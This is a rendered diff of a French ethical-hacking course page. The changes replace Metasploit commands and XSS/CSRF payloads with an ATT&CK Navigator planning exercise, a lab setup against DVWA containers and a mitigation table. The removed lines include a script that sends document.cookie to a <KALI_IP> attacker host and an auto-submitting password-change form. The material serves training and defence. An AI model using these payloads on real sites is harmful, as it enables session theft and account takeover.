

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, 2 parts joined by grey strips. Shown at 83% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -228,19 +295,51 @@ nmap --script vuln <IP>    # Vulnérabilités connues
 ```
 
-### Metasploit → [TA0001](https://attack.mitre.org/tactics/TA0001/)-TA0006
+Notez les services exposés par chaque conteneur (ports, protocoles). Vous utiliserez cette information pour choisir vos techniques d'attaque.
+
+### Étape 2 — Créer une couche ATT&CK complète
+
+Ouvrez [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) → **New Layer** → **Enterprise v15**.
+
+Créez une couche nommée `Plan JOUR-01` qui couvre les techniques suivantes, organisées par tactique :
+
+| Tactique | Technique | Outil prévu | Lab cible |
+|----------|-----------|-------------|-----------|
+| [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance | [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning | nmap | 1.1 |
+| [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance | [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing | Wireshark / tcpdump | 1.2 |
+| [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise (XSS) | navigateur, curl | 1.2 |
+| [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application (SQLi) | sqlmap | 1.3, 1.5 |
+| [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution (CSRF) | curl, HTML | 1.2 |
+| [TA0002](https://attack.mitre.org/tactics/TA0002/) Execution | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell (CMDi) | netcat, msfvenom | 1.4 |
+| [TA0006](https://attack.mitre.org/tactics/TA0006/) Credential Access | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force | Hydra | 1.6 |
+| [TA0006](https://attack.mitre.org/tactics/TA0006/) Credential Access | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) Password Cracking | John the Ripper | 1.5 |
+
+**Consigne :** Ajoutez chaque technique dans le Navigator, coloriez en **rouge** les techniques que vous allez exécuter aujourd'hui, en **orange** celles qui dépendent d'une autre, et exportez en JSON → `rendu_labs/jour-01/plan-attaque-j1.json`.
+
+### Étape 3 — Ordonnancer l'attaque
+
+Pour chaque technique du plan, définissez :
+1. **Dépendance** : quelle technique doit réussir avant ?
+2. **Contre-mesure possible** : qu'est-ce qui pourrait nous bloquer ?
+3. **Objectif** : quel résultat attendu (shell, credentials, data) ?
+
+| Ordre | Technique | Dépend de | Risque | Objectif |
+|-------|-----------|-----------|--------|----------|
+| 1 | T1046 — Scan | — | Firewall bloque le port | Ports ouverts identifiés |
+| 2 | T1190 — SQLi | T1046 | WAF détecte union select | Dump de la base users |
+| 3 | T1189 — XSS | T1046 | CSP bloque le script | Vol de cookie admin |
+| 4 | T1059.004 — CMDi | T1046 | disable_functions coupe nc | Reverse shell |
+| 5 | T1110 — Brute Force | T1046 | Account lockout après 3 fails | Mot de passe admin |
+
+Documentez ce tableau dans `rendu_labs/jour-01/plan-attaque-j1.md`.
+
+### Étape 4 — Lancer l'infrastructure
 
 ```bash
-# Lancement de la console interactive Metasploit (framework d'exploitation modulaire)
-msfconsole
-# Recherche d'un exploit par mot-clé (ex: vsftpd, samba, eternalblue)
-search <exploit>
-# Sélection du module d'exploit à utiliser (chemin complet dans l'arborescence Metasploit)
-use <chemin>
-# Définit l'adresse IP de la cible distante (RHOSTS = Remote HoSTS)
-set RHOSTS <IP>
-# Lance l'exploit configuré contre la cible
-exploit
+# Démarrer tous les conteneurs du JOUR-01
+cd /chemin/vers/techniques-de-hacking-niveau-1
+source env.sh
+docker compose up -d --build dvwa sqli-app
 ```
 
-### Wireshark → [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing
+Vérifiez que les cibles répondent :
 
@@ -264,20 +351,21 @@ flowchart LR
 ```
 
-**Fig 5** — Flux d'attaque XSS réfléchie : injection de script dans la page, exécution côté victime, exfiltration du cookie de session.
+### Checkpoints
 
-```html
-<script>alert('XSS')</script>
-<script>new Image().src='http://<KALI_IP>:8000/?c='+document.cookie</script>
-```
+- [ ] Couche ATT&CK Navigator créée et exportée en JSON (5+ techniques)
+- [ ] Tableau d'ordonnancement rédigé (ordre, dépendance, risque, objectif)
+- [ ] Conteneurs dvwa et sqli-app démarrés, réponses HTTP 200
+- [ ] Plan déposé dans `rendu_labs/jour-01/`
 
-### CSRF → [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution
+### 🔒 Contre-mesure (M1031 + M1041)
 
-**Contexte métier :** L'attaquant force un utilisateur authentifié à exécuter une action (virement, changement de mot de passe) sans son consentement, simplement en visitant une page piégée.
+Un bon plan d'attaque sert aussi à la **défense** : chaque technique a sa mitigation.
 
-```html
-<form action="http://<CIBLE>/change_password.php" method="POST">
-  <input name="new_password" value="hacked">
-</form>
-<script>document.forms[0].submit();</script>
-```
+| Technique | Mitigation |
+|-----------|------------|
+| T1046 — Scan | [M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention (Snort/Suricata) |
+| T1190 — SQLi | [M1041](https://attack.mitre.org/mitigations/M1041/) WAF + Requêtes préparées |
+| T1189 — XSS | [M1013](https://attack.mitre.org/mitigations/M1013/) Application Hardening (CSP, htmlspecialchars) |
+| T1059.004 — CMDi | [M1018](https://attack.mitre.org/mitigations/M1018/) User Account Control + disable_functions |
+| T1110 — Brute Force | [M1036](https://attack.mitre.org/mitigations/M1036/) Account Lockout + MFA |
 
````
Also changed, not shown: other parts of JOUR-01-introduction-hacking-ethique-vulnerabilites.md (+92 -126 lines).
